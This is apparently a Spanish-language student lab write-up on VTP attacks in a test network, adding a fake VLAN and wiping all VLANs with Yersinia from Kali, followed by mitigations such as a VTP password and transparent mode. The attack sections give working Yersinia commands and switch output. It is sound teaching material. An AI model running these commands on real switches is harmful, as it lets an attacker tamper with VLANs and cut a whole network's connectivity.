










# Laboratorio: VTP Attacks — Agregar y Borrar VLAN

Institución: Instituto Tecnológico de Las Américas (ITLA)

Asignatura: Seguridad de Redes

Estudiante: Junior Javier Santos Perez

Matrícula: 2024-1599

Link video: https://www.youtube.com/watch?v=3f7XO8avLeA 

Enlace GitHub: https://github.com/juniorjaviersantosperez/VTP-Attacks 


---

## Topología



| Dispositivo | Rol | Interfaz | Conexión |
|---|---|---|---|
| SW1 | VTP Server | Et0/0 | Linux (Kali) |
| SW1 | VTP Server | Et0/1 | SW2 Et0/1 |
| SW2 | VTP Client | Et0/1 | SW1 Et0/1 |
| SW2 | VTP Client | Et0/0 | R4 e0/0 |
| Linux (Kali) | Atacante | e0 | SW1 Et0/0 |

---

## Configuración inicial

### SW1 — VTP Server



- Dominio: ITLA  
- VTP versión: 1  
- Modo: Server  
- VLAN existente: VLAN 10 "HOLA"  
- Puerto Et0/0: trunk 802.1q hacia Kali  
- Puerto Et0/1: trunk 802.1q hacia SW2  

### SW2 — VTP Client



- Dominio: ITLA  
- VTP versión: 1  
- Modo: Client  
- Puerto Et0/1: trunk 802.1q hacia SW1  

---

## Preparación del entorno

### 1. Configurar puerto de Kali como trunk en SW1

```
SW1(config)# interface e0/0
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
SW1(config-if)# no shutdown
SW1(config-if)# end
```

### 2. Activar SVI en SW1 (requerido para Local Updater ID)

```
SW1(config)# interface vlan 1
SW1(config-if)# ip address 10.15.99.3 255.255.255.0
SW1(config-if)# no shutdown
SW1(config-if)# end
```

### 3. Instalar Yersinia en Kali

```bash
sudo apt update && sudo apt install -y yersinia
```

---


## Ataque — Agregar una VLAN

### Objetivo
Inyectar una VLAN falsa en el dominio VTP desde la máquina atacante.

### Ejecución desde Yersinia modo interactivo

```bash
sudo yersinia -I
```

Dentro de Yersinia: F2 → VTP mode → a → agregar VLAN




### Estado después del ataque



```
SW1# show vlan brief
VLAN  Name     Status
1     default  active
80    ITLA     active   ← VLAN agregada por el atacante ✓
```

**Resultado:** La VLAN 80 "ITLA" fue agregada exitosamente en SW1 por el atacante.


## Ataque — Borrar todas las VLANs

### Objetivo
Eliminar todas las VLANs definidas por el usuario en SW1 y SW2 enviando un anuncio VTP con número de revisión superior y base de datos vacía.


### Ejecución del ataque desde Kali

```bash
sudo yersinia vtp -attack 1 -interface eth0
```




### Estado después del ataque

```
SW1# show vtp status
Configuration Revision : 10

SW1# show vlan brief
VLAN  Name     Status
1     default  active
← VLAN 80 "ITLA" eliminada ✓
```

**Resultado:** El ataque fue exitoso. La revisión subió a 10 y la VLAN 80 fue eliminada en SW1 y SW2.

---


---

## Mitigación 1 — VTP Password

### Descripción
Al configurar un password VTP, el MD5 de los anuncios se calcula incluyendo el password como clave secreta. Un atacante sin el password generará un MD5 inválido y el switch descartará el frame silenciosamente.

### Configuración en SW1

```
SW1(config)# vtp password cisco
SW1# show vtp password
VTP Password: cisco
```



### Efecto
```
Atacante envía frame VTP con MD5 sin password
        ↓
SW1 recalcula MD5 esperado con "cisco"
        ↓
MD5 no coincide → frame descartado
        ↓
Ataque FALLA ✓
```

---

## Mitigación 2 — VTP Mode Transparent

### Descripción
Un switch en modo Transparent no procesa ni propaga anuncios VTP externos. Ignora completamente los mensajes VTP recibidos, por lo que ningún atacante puede modificar su base de datos de VLANs.

### Configuración en SW1

```
SW1(config)# vtp mode transparent
Setting device to VTP Transparent mode for VLANS.
```



### Efecto
```
Atacante envía frame VTP
        ↓
SW1 en modo Transparent ignora el anuncio
        ↓
Base de datos de VLANs intacta
        ↓
Ataque FALLA ✓
```

---

## Resumen de mitigaciones

| Mitigación | Comando | Protege contra |
|---|---|---|
| VTP Password | `vtp password cisco` | MD5 inválido rechaza anuncios falsos |
| VTP Transparent | `vtp mode transparent` | Ignora todos los anuncios VTP externos |
| VTP Version 3 | `vtp version 3` | Solo Primary Server puede hacer cambios |
| Deshabilitar DTP | `switchport nonegotiate` | Evita conversión de puerto access a trunk |

---

## Conclusión

El ataque VTP es posible cuando un atacante logra acceso a un puerto trunk de la red. Enviando anuncios VTP con número de revisión superior al del servidor legítimo, puede borrar o agregar VLANs en toda la infraestructura afectando la conectividad de la red completa. Las mitigaciones de VTP password y modo transparent eliminan efectivamente este vector de ataque.
